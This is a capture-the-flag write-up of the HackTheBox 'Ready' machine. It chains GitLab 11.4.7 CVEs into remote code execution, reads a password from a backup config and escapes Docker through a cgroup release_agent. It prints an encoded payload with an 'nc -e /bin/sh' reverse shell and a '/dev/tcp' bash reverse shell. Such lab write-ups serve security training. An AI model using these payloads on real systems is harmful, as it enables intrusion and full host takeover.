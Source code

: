 ```yaml
---
layout: post
title: Ready - Walkthrough
---
```


Overall, a nice box which reminds me of the 'Laboratory' box. Finding the exploit was easy but making it working was a bit more challenging. As usual, I learned lot, which is exactly what I'm looking for on hackthebox !

## Recon
I start with a quick Nmap followed by a full scan with the default script (-C) and the -V tag to get more info about the services.

{% highlight sh %}
sudo nmap ready && sudo nmap -sCV -p- ready -oN nmap
{% endhighlight %}

{% highlight text %}
\# Nmap 7.91 scan initiated Mon Dec 14 10:25:22 2020 as: nmap -sCV -p- -oN nmap ready
Nmap scan report for ready (10.10.10.220)
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
\# Nmap done at Mon Dec 14 10:39:47 2020 -- 1 IP address (1 host up) scanned in 865.64 seconds
{% endhighlight %}

As you can see, we only have 2 ports open `22` which `SSH` and the port `5580`, which apparently (`http-title: Sign in \xC2\xB7 GitLab`) could be `Gitlab`.

The first thing I do here is visiting browsing to `http://ready:5080` and I got directly redirected to the <strong><cite>Gitlab</cite></strong> registration page. 

![0102847c9448c67f04dd20bc657bb1f4.png](/images/5a93ab997260411cad2281b8f90e288c.png)

I just created an account and logged in !

## Foothold / User

When I see <strong><cite>Gitlab</cite></strong> or any other tool like that, the first thing I want is to get the actual version. So, I browse to the `help` section and got the version `11.4.7`.

The actual version of <strong><cite>Gitlab</cite></strong> is the [13.6](https://gitlab.com/gitlab-org/gitlab/-/releases), so the version on the target is completely outdated ! In fact, the `11.4.7` version has been released in [Nov 2018](https://about.gitlab.com/releases/2018/11/21/gitlab-11-4-7-released/). Hence I want to check for any `CVE` that I can find on 
I <strong><cite>Google</cite></strong>.

I searched for `gitlab 11.4.7 rce` and quickly discovered that [exploit](https://www.exploit-db.com/exploits/49257).

That script exploits these vulnerabilities [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571) and [CVE-2018-19585](https://nvd.nist.gov/vuln/detail/CVE-2018-19585) by chaining them to gain access to the box. 

Basicaly, it uses a `CRLF` vuln to force the server to make request that it's not suppose to make, which is an `SSRF` attack.

If you don't know how these attacks work, I recommend to check out these links to have a better understanding of it. 

https://portswigger.net/web-security/ssrf  
https://owasp.org/www-community/vulnerabilities/CRLF_Injection  

Back to the exploit, I just modified these lines:

> username='rock'
authenticity_token='JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A=='
cookie = '_gitlab_session=663f6a0f34be6ffa9aa316101b69d437; sidebar_collapsed=false'
localport='4444'
localip='10.10.14.10'
>
>url = "http://10.10.10.220:5080"  
proxies = { "http": "http://127.0.0.1:8080" }

Don't forget to add the proxy param if you want to see the request inside `ZAP` or `Burp`. 

> r=session.post(url+'/projects',data=newpayload,headers=headers,allow_redirects=False,proxies=proxies)

I got the authenticity_token and the cookie by creating a new project manualy and then examining the request with `ZAP`.
It looked like that:

![d5e1b822bf7b72345748e1b53378ace7.png](/images/c8e6dbe5713346b4804ef57d0f70d1eb.png)

Then I ran the script:

{% highlight sh %}
python ./exploit.py
{% endhighlight %}

{% highlight text %}
 
Debug => Token: JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A==
Debug => Cookie: _gitlab_session=663f6a0f34be6ffa9aa316101b69d437; sidebar_collapsed=false
Debug => Namespace ID: 3
Debug => Payload encoded: utf8=%E2%9C%93&authenticity_token=JqwnkF6E9zsuEFqtvokB9B3J8VHTzJ6dwN2iCcoT2RnlSUKh7LWEQyVSQ976o4cb3Z82ejYyfXzJOquVm4pH1A%3D%3D&project%5Bci_cd_only%5D=false&project%5Bname%5D=LckpZKdG&project%5Bnamespace_id%5D=3&project%5Bpath%5D=LckpZKdG&project%5Bdescription%5D=LckpZKdG&project%5Bvisibility_level%5D=20&=project%5Binitialize_with_readme%5D&project%5Bimport_url%5D=git%3A%2F%2F%5B0%3A0%3A0%3A0%3A0%3Affff%3A127.0.0.1%5D%3A6379%2F%0A+multi%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%27%7Cnc+10.10.14.10+4444+-e+%2Fbin%2Fsh%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0A+exec%0A+exec%0A+exec%0A%2Frock%2FLckpZKdG.git
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.220.
Ncat: Connection from 10.10.10.220:43496.
id
uid=998(git) gid=998(git) groups=998(git)
{% endhighlight %}

And boom ! We have a shell. 

The user flag is there `/home/dude/user.txt`.

## Root

As usual, I made a bit of manual enumeration on the box and found an interersting backup folder here `/opt/backup`.

> 
-rw-r--r-- 1 root root   872 Dec  7 09:25 docker-compose.yml  
-rw-r--r-- 1 root root 15092 Dec  1 16:23 gitlab-secrets.json  
-rw-r--r-- 1 root root 79639 Dec  1 19:20 gitlab.rb  

We have a lot of valuable informations here but the most interesting is inside the `gitlab.rb` file. You can `cat` it but you'll have a lot of useless lines. Hence, if you remove every comments from the output, you'll get a nice password ! 

{% highlight sh %}
cat /opt/backup/gitlab.rb | grep -v '^#' | grep -v '^$'
{% endhighlight %}

{% highlight text %}
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
{% endhighlight %}

Then I switched to root with the new password.

From there, I didn't know how to make my next step, so I uploaded `linpeas` and ran it on the target. 

![e2d3f602a92aa984836b11b2daea5576.png](/images/e1c884de695f4e8a8353bdf93ce98fe2.png)

Linpeas confirmed that we are inside a container so I made a quick research on <strong><cite>Google</cite></strong> and I've found a very interesting [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container) about escaping containers.

> The --privileged flag introduces significant security concerns, and the exploit relies on launching a docker container with it enabled. When using this flag, containers have full access to all devices and lack restrictions from seccomp, AppArmor, and Linux capabilities.
In fact, --privileged provides far more permissions than needed to escape a docker container via this method.

There are a few requirements for the procedure to work: 

> We must be running as root inside the container  
The container must be run with the SYS_ADMIN Linux capability  
The container must lack an AppArmor profile, or otherwise allow the mount syscall  
The cgroup v1 virtual filesystem must be mounted read-write inside the container  

The only thing that I'm sure of is that we are `root` inside the docker. Hence I'm gonna give a try and  we'll see what happens.

The [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-a-docker-container) is well explained and I really encourage you to read it carrefully. 

Here are the steps I did on the box: 

>To trigger this exploit we need a cgroup where we can create a release_agent file and trigger release_agent invocation by killing all processes in the cgroup. The easiest way to accomplish that is to mount a cgroup controller and create a child cgroup.

{% highlight sh %}
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
{% endhighlight %}

>Next, we enable cgroup notifications on release of the “x” cgroup by writing a 1 to its notify_on_release file. We also set the RDMA cgroup release agent to execute a /cmd script — which we will later create in the container — by writing the /cmd script path on the host to the release_agent file. To do it, we’ll grab the container’s path on the host from the /etc/mtab file.

{% highlight sh %}
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
{% endhighlight %}

> Now, we create the /cmd script 

{% highlight sh %}
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.2/4545 0>&1" >> /cmd
chmod a+x /cmd
{% endhighlight %}

> Finally, we can execute the attack by spawning a process that immediately ends inside the “x” child cgroup.

{% highlight sh %}
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
{% endhighlight %}

And we got a shell as `root` on the host machine. 

{% highlight text %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

Rooted ;)
